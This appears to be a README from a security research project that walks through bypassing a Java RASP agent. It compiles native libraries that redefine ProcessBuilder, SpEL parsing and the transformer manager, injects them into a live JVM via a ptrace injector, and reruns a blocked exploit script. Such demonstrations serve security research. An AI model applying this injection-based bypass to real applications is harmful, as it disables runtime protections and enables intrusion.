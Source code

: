 RASP Bypass using Process Injection

- Use your own RASP agent or use [rasp-agent](..%2Frasp-agent)
- Run [Main.kt](src%2Fmain%2Fjava%2Fcom%2Fapplicationsec%2FMain.kt) with the VM option:
  - -javaagent:path/to/rasp-agent/target/rasp-agent-1.0.0-SNAPSHOT.jar
- Run [exploit.sh](exploit.sh) and see that we are blocked.
  ![blocked.png](blocked.png)

Inject it in the target process
- set JAVA_HOME property (e.g. export JAVA_HOME=/Library/Java/JavaVirtualMachines/openjdk-17.jdk/Contents/Home)
- Compile libraries
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineTransformerManager.cpp -o redefineTransformerManager.dylib -L"$JAVA_HOME/lib/server" -ljvm
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineProcessBuilder.cpp -o redefineProcessBuilder.dylib -L"$JAVA_HOME/lib/server" -ljvm
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineSpelExpressionParser.cpp -o redefineSpelExpressionParser.dylib -L"$JAVA_HOME/lib/server" -ljvm
- now inject the library (e.g. using ptrace for macos/linux: https://github.com/kubo/injector)
- cd injector/cmd
- ./injector -java -p $pid path/to/redefineTransformerManager.dylib
- ./injector -java -p $pid path/to/redefineSpelExpressionParser.dylib
- ./injector -java -p $pid path/to/redefineProcessBuilder.dylib
- Look at the spring app logs, and confirm that the injection succeeded
  ![attached.png](attached.png)
- now rerun the exploit[exploit.sh](exploit.sh), you should have bypassed rasp
  ![bypassed.png](bypassed.png)

